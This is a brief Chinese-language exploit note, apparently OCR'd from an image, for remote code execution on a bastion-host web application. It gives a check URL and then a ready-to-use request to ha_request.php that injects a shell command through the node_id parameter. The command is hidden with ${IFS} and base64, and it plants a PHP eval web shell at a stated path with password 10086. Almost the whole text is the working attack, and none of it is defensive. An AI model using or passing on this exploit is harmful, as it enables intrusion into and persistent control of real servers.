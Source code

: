 1、访问 http://1.1.1.1/listener/cluster_manage.php  :返回 "OK".
2、访问如下链接即可getshell，执行成功后，生成PHP一句话马
3、/var/www/shterm/resources/qrcode/lbj77.php  密码10086

一句话：
https://1.1.1.1/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash`|${IFS}|echo${IFS}

（1.1.1.1为目标机器IP）
